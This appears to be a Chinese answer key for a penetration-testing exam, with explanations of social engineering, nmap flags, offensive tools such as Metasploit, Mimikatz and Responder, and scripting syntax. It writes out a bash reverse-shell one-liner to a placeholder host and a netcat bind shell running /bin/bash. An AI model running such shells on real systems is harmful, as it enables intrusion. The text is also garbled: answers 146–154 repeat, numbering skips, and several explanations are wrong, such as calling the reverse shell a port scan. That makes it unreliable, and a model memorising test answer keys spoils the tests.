社会工程工具包 (`SET`) 提供了一个自动化社会工程过程的框架，包括发送钓鱼邮件、托管假网站和收集凭据。社会工程在许多攻击中起着重要作用。`SET` 是一个菜单驱动的社会工程攻击系统。在这种情况下，渗透测试人员正在尝试钓鱼攻击。

### 190. B.
链路本地名称解析 (`LLMNR`) 和 NetBIOS 名称服务 (`NetBIOS-NS`) 毒可以为渗透测试人员提供获取中间位置的能力，扩大他们访问和信息的能力。Windows 网络中最受针对的服务之一是 `NetBIOS`。`NetBIOS` 通常用于文件共享。

### 191. C.
获取主机、系统或应用程序访问的第一步骤之一是枚举用户名。一旦猜出用户名，就可以尝试针对密码的攻击。RID 循环攻击尝试通过空会话枚举用户账户。如果测试人员指定了密码文件，它将在完成枚举后自动尝试破解用户账户。因此，在这种情况下，尝试 RID 循环将是测试人员应该尝试的下一步。

### 192. A.
通过门卡克隆，测试人员可以克隆员工的卡以进入设施。常用的技术之一是克隆射频识别 (`RFID`) 标签。鉴于这种试图在工作时间和下班后获取访问权限的场景，门卡克隆是最佳选择。


### 193. C. Vishing（语音钓鱼）
Vishing（语音钓鱼）是基于电话系统的社交工程学攻击。钓鱼攻击针对密码、用户名或信用卡信息等敏感信息。Vishing 的工作原理与钓鱼相似，但使用语音技术实施。Vishing 攻击可以通过语音邮件、IP 电话语音 (`VoIP`) 或固定电话或手机进行。在这种场景中，由于 CEO 正在接听电话，因此这是一次语音钓鱼攻击。

### 194. D. 权限提升
权限提升攻击通常分为两大主要类型：垂直提升和水平提升。垂直提升攻击侧重于让测试人员获得更高的权限。水平提升攻击则是侧向移动到具有相同权限的其他账户或服务。未加引号的服务路径是 Windows 中的一个漏洞。当服务启动时，Windows 会尝试定位它。通常情况下，服务是用引号定义的。但有时服务路径可能包含空格或未被引号包围。测试人员可以使用未加引号的服务路径来提升权限。

### 195. C. 蓝牙劫持（Bluejacking）
蓝牙劫持是攻击者通过蓝牙设备发送未请求的消息。蓝牙劫持是一种允许个人向一定半径内启用蓝牙的设备发送匿名消息的攻击方法。首先，黑客使用启用蓝牙的设备扫描周围寻找其他设备。然后，黑客向检测到的设备发送未请求的消息。

### 196. B. 命令注入
在这种场景中，输入了一个命令，攻击者试图获取 `/etc` 目录内密码文件的访问权限。命令注入是一种攻击，其目标是通过漏洞应用程序在主机操作系统上执行任意命令。当应用程序将不安全的用户提供的数据（表单、cookie、HTTP 请求头等）传递给系统 shell 时，就可能发生命令注入。

### 197. B. 跨站脚本 (XSS)
当 Web 允许攻击者执行 HTML 注入，将自己的 HTML 代码插入到网页中时，就会发生跨站脚本（XSS）攻击。在这种场景中，攻击者正试图使用网络浏览器通过 JavaScript 代码操纵 HTML `iframe`。

### 198. B. 键盘记录器
键盘记录器是可以在持续利用过程中发挥价值的软件和硬件。捕获击键可以洞察用户执行的操作，并作为获取凭据和其他机密信息的价值来源。键盘记录器是一种跟踪或记录键盘上按下按键的软件。这通常带有恶意意图，旨在收集账户信息、信用卡号、用户名、密码和其他隐私数据。

### 199. D. 竞态条件
当代码段的安全性取决于系统内部事件发生的顺序时，就会发生竞态条件。检查时间到使用时间（time-of-check-to-time-of-use `TOCTTOU`）问题是一种竞态条件，发生在程序在资源请求过早检查访问权限时。

### 200. A. Cookies
网站使用 HTTP cookie 来维持会话。如果测试人员获取用户的会话 cookie 副本，可以使用该 cookie 冒充用户的浏览器并劫持已认证的会话。获取用于验证用户 Web 会话的 cookie 的攻击者可以劫持该会话并控制用户的账户。用于认证的 Cookie 应该始终安全创建，并仅通过安全的加密通信通道进行传输。

## 第 4 章：渗透测试工具

### 1. A. `-sS` 选项导致 `nmap` 工具对指定的目标系统进行 SYN 端口扫描。

### 2. D 和 E. `nmap 192.168.1.0/24` 命令导致 `nmap` 工具扫描子网内从 `.1` 到 `.254` 的每一个系统。同样，`nmap 192.168.1.1-254` 命令导致 `nmap` 工具扫描子网内从 `.1` 到 `.254` 的每一个系统。

### 3. A 和 B. `nmap 192.168.1.1 -sS` 命令导致 `nmap` 工具对指定的目标系统进行 SYN 端口扫描。同样，`nmap 192.168.1.1` 命令也会导致 `nmap` 工具对指定的目标系统进行 SYN 端口扫描，因为如果没有指定其他扫描类型，SYN 扫描是默认使用的。

### 4. D. `nmap 192.168.1.1 -O` 命令导致 `nmap` 工具使用 TCP/IP 栈指纹识别确定远程主机上安装的操作系统。

### 5. A. `nmap 192.168.1.1 -A` 命令启用 OS 检测、服务版本检测、脚本扫描和到远程主机的路由跟踪（traceroute）。

### 6. C. `nmap 192.168.1.1 -sT` 命令导致 `nmap` 工具对指定的目标系统进行 TCP 连接扫描。

### 7. D. `nmap 192.168.1.1 -sU` 命令导致 `nmap` 工具对指定的目标系统进行 UDP 端口扫描。

### 8. A. `nmap 192.168.1.0/24 -sL` 命令导致 `nmap` 工具扫描指定的 IP 地址范围主机。它只是列出要扫描的目标。

### 9. A. `nmap 192.168.1.1 -sA` 命令导致 `nmap` 工具对指定的目标系统进行 TCP ACK 扫描。

### 10. C. `nmap 192.168.1.0/24 --exclude 192.168.1.250` 命令导致 `nmap` 工具扫描子网内从 `.1` 到 `.254` 的每一个系统，但跳过 IP 地址为 `192.168.1.250` 的主机。

### 11. A. `nmap 192.168.1.10-13 -sA` 命令导致 `nmap` 工具对 IP 地址为 `192.168.1.10`、`192.168.1.11` 和 `192.168.1.13` 的目标系统进行 TCP ACK 扫描。

### 12. C. 因为要扫描的主机没有连续的 IP 地址，你必须单独指定每个主机。在这种情况下，`nmap 192.168.1.10 192.168.1.11 192.168.1.12 192.168.1.13 -sU` 命令导致 `nmap` 工具对这些系统进行 UDP 端口扫描。

### 13. B. `nmap 192.168.1.1-254 -sn` 命令导致 `nmap` 工具扫描指定的 IP 地址范围主机。它列出发现的主机而不实际扫描端口。

### 14. D. `nmap 192.168.1.1-254 -p 23` 命令导致 `nmap` 工具扫描指定的 IP 地址范围内开放了 23 端口的主机。

### 15. A. `nmap 192.168.1.2 -p-` 命令导致 `nmap` 工具扫描主机上的所有端口。注意由于端口数量的原因，扫描需要一些时间。

### 16. D. 当 nmap 显示端口为 `filtered` 时，通常意味着服务已安装并运行，但主机防火墙拦截了该端口。

### 17. B. 当 nmap 显示端口为 `open` 时，通常意味着服务已安装、正在运行，并且可以通过防火墙访问。

### 18. A. 当 nmap 显示端口为 `closed` 时，通常意味着没有安装关联服务，或者服务已安装但当前未运行。因此，没有程序在其关联端口上监听。

### 19. A. `-sS` 选项导致 nmap 执行 TCP SYN 扫描。在此扫描中，nmap 向目标主机发送一个 TCP SYN 包，然后目标主机响应 SYN ACK 包。然而，nmap 在没有完成连接的情况下向目标主机发送了一个重置（reset）包。

### 20. D. 本题中的所有选项都会导致 nmap 检测目标主机上运行的服务。但只有 `-sV` 选项可以配合 nmap 检测这些服务的版本号。

### 21. C. `-p U:20,T:21,22` 命令告诉 nmap 只扫描 UDP 端口 20 和 TCP 端口 21、22。本题中的其他选项也会扫描这些端口；但它们还会扫描许多不需要的端口。

### 22. A 和 C. 使用 `-p http,https` 选项或 `-p 80,443` 选项都可以配合 nmap 扫描 Web 服务器服务。

### 23. B. `--top-ports 1000` 选项告诉 nmap 扫描 1000 个常用网络服务使用的默认端口。`--exclude-ports 53` 选项告诉 nmap 在扫描期间跳过 53 端口（DNS 服务器使用的默认端口）。


24. C. `-iL file_name` 选项告诉 `nmap` 读取指定的文件并仅扫描该文件中列出的主机。

25. A. `-Pn` 选项告诉 `nmap` 在不实际发现主机的情况下扫描主机（或整个子网）。在渗透测试期间应避免这种类型的扫描，因为其耗时很长；范围内每个 IP 地址的每个端口都会被扫描，无论该 IP 地址是否有效。由于由于，它还会产生大量的流量，可能会被 IDS 或 IPS 工具检测到。

26. A. `-T1` 选项告诉 `nmap` 在 `sneaky`（秘密）模式下进行扫描。在这种模式下，每 15 秒将扫描一次端口。因此，这种扫描非常慢。然而，这种缓慢也使得扫描更难被检测。

27. D. `-T4` 选项告诉 `nmap` 在 `aggressive`（激进）模式下扫描。这种扫描运行速度非常快。然而，这种速度也使得扫描更容易被 IDS/IPS 系统或目标的 IT 人员检测。

28. C. 如果运行 `nmap` 命令时未指定时间选项，则默认使用 `-T3` 选项。这告诉 `nmap` 在 `normal`（正常）模式下扫描。

29. A. `-T0` 选项导致 `nmap` 在 `paranoid`（疑神）模式下扫描，在该模式下，目标主机每五分钟只扫描一个端口。虽然这种模式可以运行最隐蔽的扫描，但它也会导致运行速度极其缓慢。

30. A. `-T5` 选项导致 `nmap` 在 `insane`（疯狂）模式下扫描。这是最快的 `nmap` 扫描类型。然而，速度也使其更容易被 IDS/IPS 工具或目标的 IT 人员检测。

31. C. `-T2` 选项导致 `nmap` 在 `polite`（礼貌）模式下扫描。这种扫描运行非常慢。然而，缓慢也使得扫描更难被检测。

32. B. `-oN` 选项导致 `nmap` 将扫描结果写入标准文本文件。使用此选项时，必须指定文件名。

33. A. `-oX` 选项导致 `nmap` 将扫描结果写入 XML 格式的文本文件。使用此选项时，必须指定文件名。

34. D. `-oG` 选项导致 `nmap` 将扫描结果写入文本文件，该格式允许使用 `grep` 命令进行快速搜索。使用此选项时，必须指定文件名。

35. C. `-oA` 选项导致 `nmap` 同时将扫描结果写入普通文本文件、XML 格式文本文件和可 grep 的文本文件​​。使用此选项时，必须指定一个基础文件名。使用该基础文件名生成的每个文件将添加不同的扩展名。普通文件将具有 `.nmap` 扩展，可 grep 的文件将具有 `.gnmap` 扩展，XML 文件将具有 `.xml` 扩展。

36. A. `-f` 选项导致 `nmap` 使用微小的碎片数据包进行扫描。有时，这些小数据包对于数据过滤防火墙更难正确分析。

37. B. `-D` 选项导致 `nmap` 从伪造的 IP 地址发送扫描。你可以使用此选项指定一个或多个虚假的源 IP 地址。

38. D. `-iR` 选项导致 `nmap` 扫描指定数量的随机主机。例如，如果你想扫描 50 个随机主机，将在 `nmap` 命令中使用 `-iR 50` 选项。

39. C. `-F` 选项导致 `nmap` 对指定的主机扫描 100 个常用的 IP 端口。例如，这种扫描将包含端口 20、21、23、25、53、80 等。有时，这被称为 `fast port scan`（快速端口扫描）。

40. A. `--proxies` 选项导致 `nmap` 通过代理服务器中继连接。你需要在使用此选项时需要包含一个或多个代理服务器的 IP 地址。

41. A and B. 在示例中，使用 `nmap` 实用程序运行 TCP SYN 扫描。`nmap 10.0.0.1` 和 `nmap 10.0.0.1 –sS` 命令均可运行这种扫描。

42. B. 在示例中，使用 `nmap` 实用程序运行 TCP 连接扫描。`nmap 10.0.0.1 –sT` 命令可运行这种扫描。注意，该命令的输出与 TCP SYN 扫描的输出几乎完全相同。

43. C. 在示例中，使用 `nmap` 实用程序运行 UDP 扫描。`nmap 10.0.0.1 –sU` 命令可运行这种扫描。注意，该命令的输出与 TCP SYN 扫描的输出几乎完全相同；但它列出 UDP 端口而非 TCP 端口。

44. A. 在示例中，使用 `nmap` 实用程序运行 TCP ACK 扫描。`nmap 10.0.0.1 –sA` 命令可运行这种扫描。

45. A. 在示例中，使用 `nmap` 实用程序运行 TCP 扫描。使用 `-v` 选项可以增加输出的详细程度。

46. C. 在示例中，使用 `nmap` 实用程序运行 TCP 扫描。使用 `-vv` 选项可以增加输出的详细程度。

47. B. 在示例中，使用 `nmap` 实用程序运行 OS 探测。

48. C. 在示例中，使用 `nmap` 实用程序运行可用主机扫描。

49. A. 在示例中，使用 `nmap` 实用程序运行 ping 扫描。

50. C. 在示例中，使用 `nmap` 实用程序扫描 80 端口。

51. A and D. `whois` 和 `nslookup` 实用程序用于被动侦查组织。由于这些信息是公开的，使用这些工具不太引起怀疑。

52. B and C. `nmap` 和 `hping` 实用程序用于主动指纹识别。

53. A and B. `John the Ripper` 和 `Cain and Abel` 可用于破解 Linux 系统的 `shadow` 和 `passwd` 文件中的用户密码。

54. D and E. `OWASP ZAP` 以及 `Nessus` 可用于扫描漏洞。

55. B. `sqlmap` 可用于破解 SQL 数据库的密码。

56. A. `Mimikatz` 可用于破坏 Kerberos 认证系统，生成 `golden` 和 `silver` Kerberos 票据。

57. A and C. `Nikto` 和 `W3AF` 实用程序常用于扫描漏洞。

58. D and E. `Medusa` 和 `Hydra` 实用程序均用于暴力破解密码攻击。

59. B and D. `Patator` 和 `Aircrack-ng` 实用程序均用于暴力破解密码攻击。`Patator` 可破解 FTP、SNMP 和 SSH 服务器等多种服务；`Aircrack-ng` 用于暴力破解无线网络。

60. C and D. `Empire` 和 `PowerSploit` 实用程序均基于 Windows PowerShell。本质上，它们是 PowerShell 脚本集合，可用于各种漏洞利用。


### 66. A 虽然 `Nikto` 通常被认为是渗透测试人员使用的漏洞扫描器，但系统管理员也可以它来验证其网络内部的配置合规性，特别是其 Web 服务器的配置。

### 67. D `proxychains` 工具允许你对目标组织执行渗透测试任务，并使生成的网络流量看起来来自中间代理系统。

### 68. A 和 D `APK Studio` 和 `APKX` 都可以用于调试或甚至反编译 Android 可执行文件。

### 69. A 和 D `AFL` 和 `Peach` 都可以用于作为软件保障的一部分，对应用程序进行模糊测试（fuzzing）。

### 70. A 和 B `Findsecbugs` 和 `Yet Another Source Code Analyzer (YASCA)` 都可以用于作为软件保障的一部分执行静态应用安全测试 (SAST) 或动态应用安全测试 (DAST)。

### 71. C `hashcat` 实用可以配置为使用 GPU 代替 CPU 来执行密码破解操作。这可以极大加快过程，因为 GPU 执行此任务的速度比标准 CPU 快得多。

### 72. A 和 E 多次失败的登录尝试是渗透测试人员正在使用暴力破解密码工具访问系统的明确迹。`Hydra` 和 `Medusa` 实用都能够运行暴力破解攻击。

### 73. B 此输出是由 `Medusa` 实用创建的。`Medusa` 是一种暴力破解密码工具，它向给定的用户账户（在这种情况下为管理员）一个接一个发送密码，以希望能找到正确的那个。

### 74. B `CeWL` 实用可以配置为爬取目标组织的网站，并从网站收集可能被员工用作密码的关键词，然后将其保存到列表中。该列表可以用于运行暴力破解密码攻击。

### 75. D `Dirbuster` 实用是一个暴力破解工具，渗透测试人员可以使用它来发现 Web 服务器或应用程序服务器上的目录和文件，包括隐藏文件或目录。

### 76. A 此输出是由 `John the Ripper` 创建的。这个凭据测试工具是一种暴力破解密码实用程序。在此示例中，root 用户的密码（toor）已被发现。

### 77. A 此输出是由 `whois` 实用创建的。这种开源情报收集（OSINT）工具用于收集有关目标组织域名的公开信息。

### 78. D 和 E 你可以使用 `Kismet` 或 `WiFite` 来尝试破解目标组织的无线网络。你也可以使用 `Aircrack-ng` 来实现此目标。

### 79. B 和 C 你可以使用 `Burp Suite` 或 `OWASP ZAP`。这两个工具都可以用于拦截在运行 Web 浏览器的用户与目标组织 Web 服务器之间流的网络流量。通过代理连接，渗透测试人员可以读取被拦截流量的内容。

### 80. A `netcat` 实用可用于设置反向 shell（reverse shell）漏洞，允许测试人员远程控制受损的系统。

### 81. D `ncat` 实用是旧版 `netcat` 实用的更新改进版本。

### 82. A 或 B 使用 `ncat` 或 `netcat` 远程访问工具均可用于设置绑定 shell（bind shell）漏洞。

### 83. C `Drozer` 实用提供了一个完整的安全审计和攻击框架，专为运行 Android 操作系统的移动设备设计。

### 84. B `APK Studio` 是一个你可以用来对 APK 可执行文件进行反编译并分析其漏洞的工具。

### 85. A `Android APK Decompilation for the Lazy (APKX)` 是一个 Python 封装器，可以直接从 Android APK 可执行文件中提取 Java 源代码。

### 86. D `searchsploit` 实用是一个命令行搜索工具，用于查询在线 `Exploit-DB` 数据库以获取已知漏洞。

### 87. D `responder` 实用可用于进行 LLMNR 和 NBT-NS 毒，可能允许渗透测试人员将客户端重定向到她的笔记本电脑并以用户名和哈希密码的形式捕获其凭据。

### 88. C `impacket` 渗透测试工具由一组 Python 类组成，用于低层访问网络协议，例如 `SMB` 和 `MSRPC` 协议。

### 89. A `Metasploit Framework (MSF)` 渗透测试工具提供了大量的漏洞，可用于破坏目标组织的网络。

### 90. B 和 D 在声明变量时，`Bash` 和 `Python` 使用相同的语法：`variable_name = value`。

### 91. A 和 C 在声明变量时，`PowerShell` 使用语法 `$variable_name = value`。`Ruby` 在声明全局（global）变量时使用相同的语法。

### 92. C 在声明局部变量时，`PowerShell` 使用语法 `$variable_name = value`。`Ruby` 在声明 `global` 变量时使用相同的语法。

### 93. C 和 D 在声明数组时，`Ruby` 和 `Python` 使用相同的语法：`array_name = value`。

### 94. B 在声明数组时，`Bash` 使用语法 `array_name=(value1 value2 value3 ...)`。

### 95. A 在声明数组时，`PowerShell` 使用语法 `$array_name = (value1 value2 value3 ...)`。

### 96. B 在引用变量值时，`Bash` 使用语法 `${variable_name}`。在此示例中，使用了 `echo` 命令。

### 97. B 在引用数组值时，`Bash` 使用语法 `${array_name[i]}`。在此示例中，使用了 `echo` 命令。

### 98. A 在引用数组值时，`PowerShell` 使用语法 `$array_name[index]`。

### 99. D 在引用数组值时，`Python` 使用语法 `array_name[index]`。

### 100. C 在引用数组值时，`Ruby` 使用语法 `array_name[index]`。


108. C. 在 `PowerShell` 脚本中对两个值进行比较以检查它们是否相等时，你使用 `-eq` 关系运算符。

109. C. 在 `Bash` 脚本中对两个整数值进行比较以检查其中一个是否大于另一个时，你使用 `-gt` 关系运算符。

110. A. `>` 关系运算符可以在 `Python` 和 `Ruby` 中使用，用于测试一个值在数值上是否大于另一个。

111. C. `-ge` 关系运算符可以在 `Bash` 和 `PowerShell` 中使用，用于测试一个值在数值上是否大于或等于另一个。

112. B. `-gt` 关系运算符可以在 `Bash` 和 `PowerShell` 中使用，用于测试一个值在数值上是否大于另一个。

113. A. `>= 关系运算符可以在 `Python` 和 `Ruby` 中使用，用于测试一个值在数值上是否大于或等于另一个。

114. B. `-lt` 关系运算符可以在 `Bash` 和 `PowerShell` 中使用，用于测试一个值在数值上是否小于另一个。

115. D. `< 关系运算符可以在 `Python` 和 `Ruby` 中使用，用于测试一个值在数值上是否小于另一个。

116. C. `-le 关系运算符可以在 `Bash` 和 `PowerShell` 中使用，用于测试一个值在数值上是否小于或等于另一个。

117. A. `<=` 关系运算符可以在 `Python` 和 `Ruby` 中使用，用于测试一个值在数值上是否小于或等于另一个。

118. B. 在 `Bash` 脚本中添加 `read TargetHost` 行会导致其接受用户在命令行输入的输入，并将其赋值给名为 `TargetHost` 的变量。

119. A. 在 `Bash` 脚本中添加 `echo $TargetHost` 行会导致其在屏幕上显示名为 `TargetHost` 的变量的值。

120. C. `test` 命令可以在 `if/then` 流程控制结构内部使用，用于评估指定条件是否真。

121. A. `Ruby` 中的 `if/then` 流程控制结构使用以下语法：
```
if condition
  commands...
else
  commands...
end
```

122. B. `PowerShell` 中的 `if/then` 流程控制结构使用以下语法：
```powershell
if condition {
  commands...
} Else {
  commands...
}
```

123. C. `Bash` 中的 `if/then` 流程控制结构使用以下语法：
```bash
if condition then
  commands...
else
  commands...
fi
```

124. E. `case` 结构是评估用户对多个选择并根据结果运行相应命令集的最佳选项。

125. A. `while` 循环将一直反复处理，直到指定的条件评估为假。

126. D. `if/then/else` 结构被认为是一种流程控制结构，因为它根据指定条件的评估结果，将脚本分流到几个方向中的其中一个。

127. C. `until` 循环结构只要指定的条件评估为假，就会一直反复处理。

128. B. `for` 循环结构将处理指定的次数。

129. D. 在 `PowerShell` 脚本中添加 `$TargetHost = read-host -Prompt` 行会导致其接受用户在命令行输入的输入，并将其赋值给名为 `TargetHost` 的变量。

130. A. 在 `PowerShell` 脚本中添加 `echo $TargetHost` 行会导致其在屏幕上显示名为 `TargetHost` 的变量的值。

131. C. 在 `Ruby` 脚本中添加 `TargetHost = gets` 行会导致其接受用户在命令行输入的输入，并将其赋值给名为 `TargetHost` 的变量。

132. D. 在 `Ruby` 脚本中添加 `puts TargetHost` 行会导致其在屏幕上显示名为 `TargetHost` 的变量的值。

133. A. 在 `Python` 脚本中添加 `TargetHost = input('Please enter a hostname:')` 行会导致其接受用户在命令行输入的输入，并将其赋值给名为 `TargetHost` 的变量。

134. B. 在 `Ruby` 脚本中添加 `print (TargetHost)` 行会导致其在屏幕上显示名为 `TargetHost` 的变量的值。

135. B. `#!/bin/bash` 元素必须包含在每个 `Bash` Shell 脚本的开头。

136. A 和 E. 你可以输入 `/bin/bash ~/myexploit` 或 `chmod u+x ~/myexploit` 来执行脚本。

137. B. `declare –i TOTAL` 命令将创建 `TOTAL` 变量并将其类型设置为整数。

138. C. 在 `Bash` 脚本中添加 `tail /var/log/firewall 1> lastevents 2> &1` 命令会将标准输出 (stdout) 和标准错误 (stderr) 发送到同一个文件中。

139. D. `Responder` 是一个用于回答网络上 Windows 系统 NetBIOS 查询的工具包。在利用 NetBIOS 响应时，`Responder` 是一个强大的工具。它可以针对单个系统或整个本地局网，允许你分析或响应 NetBIOS 服务。

140. C 和 E. 有多种工具可以协助 OSINT（开源情报）：
- `Censys` 是一个跨 Internet IP 地址的搜索引擎。
- `Fingerprinting Organizations with Collected Archives (FOCA)` 是查找 Office 文档、PDF 和其他文件格式元数据的开源工具。
- `Maltego` 是一款商业产品，协助对从 OSINT 工作收集的数据进行可视化。
- `nslookup` 工具有助于识别与相关的 IP 地址。
- `Recon-ng` 是一个模块化的侦察框架，用于组织和管理 OSINT 工作。
- `Shodan` 是一个提供漏洞物联网 (IoT) 设备发现的搜索引擎。
- `theHarvester` 在搜索引擎和其他资源中寻找电子邮件、员工姓名和基础设施。
- `whois` 工具从公共记录中收集信息。

141. B. 在凭据暴力破解攻击中，测试者将尝试使用用户名和密码登录应用程序。`Hydra` 是一种使用密码猜测破解系统的工具。

142. C. 在这种情况，测试者正在使用 Metasploit 的 `PSEXEC` 模块。通过 Metasploit，测试者可以利用系统并执行 dump 以提取哈希。然后测试者可以使用 `PSEXEC` 模块将哈希传递给网络上的另一个系统。示例显示了如何设置 `SMBPASS` 选项并执行哈希传递攻击，从而访问远程系统。哈希传递（pass-the-hash）攻击是一种利用，测试者获取哈希的用户凭据，并在不破解它的情况下重用它来欺骗验证系统在网络上创建新的验证会话。

143. C. 通过命令行运行 `msfconsole` 启动 Metasploit。`msfconsole` 命令位于 `/usr/share/metasploit-framework/msfconsole`。

144. B. `Mimikatz` 可以利用其 `sekurlsa` 模块从 Windows 本地安全子系统服务 (LSASS) 查看凭据信息，其中包括明文密码和 Kerberos 票据，这些随后可以用于哈希传递和票据传递攻击。但在这种情况下，题目指出是“通过网络”。`Mimikatz` 是唯一无法以这种方式使用的工具。

145. A. 反向 Shell 在端口上打开通信通道并等待连接。客户端机器作为服务器并向测试者机器发起连接。这是通过以下命令实现的：
```bash
bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1
```


-   考虑到这些选项，A 是最佳选项。B 和 C 将无法工作，因为它们使用的是 `<SOURCEIP>` 而不是 `<DESTINATIONIP>`。选项 D 是错误的，因为它使用了不正确的语法。

### 146. A
在 `bash` shell 中，可以打开一个网络套接通过其传递数据。可以使用 `/dev/tcp/<host>/<port>` 打开一个 `TCP` 套接。`Bash` 正在尝试对相应的套接建立 `TCP` 连接。因此，在这个示例中，执行了端口扫描。

以下是代码的详细说明：
- `/bin/bash -i` 启动一个交互式 `bash` shell。
- `>&dev/tcp/<host>/<port>` 将该 shell 重定向到测试人员。
- `0<&1 2>&1` 获取标准输入并将其连接到标准输出。然后指定对标准错误（`2>`）执行相同的操作。

### 147. C
`Hydra` 设计用于支持将 NTLM 哈希值作为密码。`Hashcat` 是一个密码破解和恢复工具。`Drozer` 是一个用于 Android 安全评估的框架。`Kismet` 是一个 802.11 二层层无线网络检测器、嗅探器和入侵检测系统。`Hydra`（通常被称为 `thc-hydra`）是一种暴力字典攻击工具，设计用于对各种协议和服务。

### 148. A
浏览器漏洞利用框架 (`BeEF`) 专为此类攻击设计。`BeEF` 提供了一个自动化工具包，用于利用社交工程学接管客户端的 Web 浏览器。测试人员随后可以使用各种钓鱼和社交工程学技术引导员工访问该网站。

### 149. A
自定义词列表 (`CeWL`) 生成器是一个 `Ruby` 应用程序，它允许测试人员根据 URL 和深度设置爬取网站，然后从找到的文件和网页中生成词列表。在目标组织的网站上运行 `CeWL` 可以帮助生成自定义的词列表。如果你收集了大量关于目标组织的信息，那么构建自定义的词列表将特别有用。

### 150. A
在这种场景中，给出的 `PowerShell` 命令将执行远程脚本。通过使用 `PowerShell` 的 `IEX` 命令，它将调用一个表达式。`IEX` 常用命令会将指定的字符串作为命令评估或运行，并返回表达式或命令的结果。`PowerShell Invoke-Command` 常用命令在本地或远程计算机上运行命令，并返回命令的所有输出，包括错误。通过使用单个 `Invoke-Command` 命令，你可以在多台计算机上运行命令。

### 151. A
网络映射器 (`Nmap`) 用于通过发送数据包并分析响应来发现计算机网络上的主机和服务。`Nmap` 将识别客户端系统上运行着哪些设备，发现可用的主机和服务，找到开放端口并检测安全风险。在这种场景中，该组织没有禁用 `Telnet`，因为端口 23 仍然开放。`Telnet` 是一种基于可靠面向连接的传输协议的客户端-服务器协议。通常，该协议用于通过端口 23 建立到传输控制协议 (`TCP`) 的连接，其中 `Telnet` 服务器应用程序 (`telnetd`) 正在监听。

### 152. C
`Hping` 是一个命令行工具，允许测试人员生成网络流量。`Hping` 受受欢迎是因为它允许你创建自定义包。在这种场景中，你将向 `TCP` 端口 80 发送 `TCP SYN`。`-S` 开关要求 `hping` 发送 `SYN` 流量，`-V` 开关是详细模式，`-p` 开关指示端口。

### 153. A
`Netcat` 可在几秒内设置 `Telnet` 服务器。你可以使用 `-e` 参数指定你希望 `Netcat` 在成功连接后运行 shell。在这种场景中，正确的语法将是 `nc -lp 444 -e /bin/bash`。`nc` 告诉 Windows 使用以下参数运行 `nc.exe` 文件：
- `-l`: 监听模式，用于入站连接
- `-p`: 指定要监听连接的端口
- `-e`: 告诉一旦端口连接通后要运行什么程序（`cmd.exe`）
- `-v`: 指定为详细模式，在标准错误上打印消息，例如当连接发生时。

```
### 154. A
`nmap` 是最常用的命令行漏洞扫描器，是一个免费的开源工具。它提供了广泛的功能，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。`nmap` 是一个端口扫描器。要扫描端口，你将使用 `-p <port ranges>`（仅扫描指定端口）。此选项指定了你想要扫描的端口并覆盖默认扫描。单个端口号或范围是可以接受的。范围之间用连字符分隔。

### 146. A
在 `bash` shell 中，可以打开一个网络套接通过其传递数据。可以使用 `/dev/tcp/<host>/<port>` 打开一个 `TCP` 套接。``接`。`Bash` 正在尝试对相应的套接建立 `TCP` 连接。因此，在这个示例中，执行了端口扫描。

以下是代码的详细说明：
`/bin/bash -i` 启动一个交互式 `bash` shell。
`>&dev/tcp/<host>/<port>` 将该 shell 重定向到测试人员。
`0<&1 2>&1` 获取标准输入并将其连接到标准输出。然后指定对标准错误（`2>`）执行相同的操作。

### 147. C
`Hydra` 设计用于支持将 NTLM 哈希作为密码。`Hashcat` 是一个密码破解和恢复工具。`Drozer` 是一个用于 Android 安全评估的框架。`Kismet` 是一个 802.11 二层无线网络检测器、嗅探器和入侵检测系统。`Hydra`（通常被称为 `thc-hydra`）是一种暴力字典攻击工具，设计用于对各种协议和服务工作。

### 148. A
浏览器漏洞利用框架 (`BeEF`) 专为此类攻击设计。`BeEF` 提供了一个自动化工具包，用于利用社交工程学接管客户端的 Web 浏览器。测试人员随后可以使用各种钓鱼和社交工程学技术引导员工访问该网站。

### 149. A
自定义词列表 (`CeWL`) 生成器是一个 `Ruby` 应用程序，它允许测试人员根据 URL 和深度设置爬取网站，然后从找到的文件和网页中生成词列表。在目标组织的网站上运行 `CeWL` 可以帮助生成自定义的词列表。如果你收集了大量关于目标组织的信息，那么构建自定义的词列表将特别有用。

### 150. A
在这种场景中，给出的 `PowerShell` 命令将执行远程脚本。通过使用 `PowerShell` 的 `IEX` 命令，它将调用一个表达式。`IEX` 常用命令会将指定的字符串作为命令评估或运行，并返回表达式或命令的结果。`PowerShell Invoke-Command` 常用命令在本地或远程计算机上运行命令，并返回命令的所有输出，包括错误。通过使用单个 `Invoke-Command` 命令，你可以在多台计算机上运行命令。

### 151. A
网络映射器 (`Nmap`) 用于通过发送数据包并分析响应来发现计算机网络上的主机和服务。`Nmap` 将识别客户端系统上运行着哪些设备，发现可用的主机和服务，找到开放端口并检测安全风险。在这种场景中，该组织没有禁用 `Telnet`，因为端口 23 仍然开放。`Telnet` 是一种基于可靠面向连接的传输的客户端-服务器协议。通常，该协议用于通过端口 23 建立到传输控制协议 (`TCP`) 的连接，其中 `Telnet` 服务器应用程序 (`telnetd`) 正在监听。

### 152. C
`Hping` 是一个命令行工具，允许测试人员生成网络流量。`Hping` 受受欢迎是因为它允许你创建自定义包。在这种场景中，你将向 `TCP` 端口 80 发送 `TCP SYNs`。`-S` 开关要求 `hping` 发送 `SYN` 流量，`-V` 开关是详细模式，`-p` 开关指示端口。

### 153. A
`Netcat` 可在几秒内设置 `Telnet` 服务器。你可以使用 `-e` 参数指定你希望 `Netcat` 在成功连接后运行 shell。在这种场景中，正确的语法将是 `nc -lp 444 -e /bin/bash`。`nc` 告诉 Windows 使用以下参数运行 `nc.exe` 文件：
- `-l`: 监听模式，用于入站连接
- `-p`: 指定要监听连接的端口
- `-e`: 告诉一旦端口连接通后要运行什么程序（`cmd.exe`）
- `-v`: 指定为详细模式，在标准错误上打印消息，例如当连接发生时。

```
### 154. A
`nmap` 是最常用的命令行漏洞扫描器，是一个免费的开源工具。它提供了广泛的功能，包括多种旨在绕过防火墙和其他网络保护设备的扫描模式。`nmap` 是一个端口扫描器。要扫描端口，你将使用 `-p <port ranges>`（仅扫描指定端口）。此选项指定了你想要扫描的端口并覆盖默认扫描。单个端口号或范围是可以接受的。范围之间用连字符分隔。

### 155. D
被动侦察也被称为开源情报 (OSINT)。被动侦察背后的思想是仅使用可用资源收集目标信息。`Shodan` 是一个用于特定类型计算机和设备的搜索引擎。

### 156. D 和 F
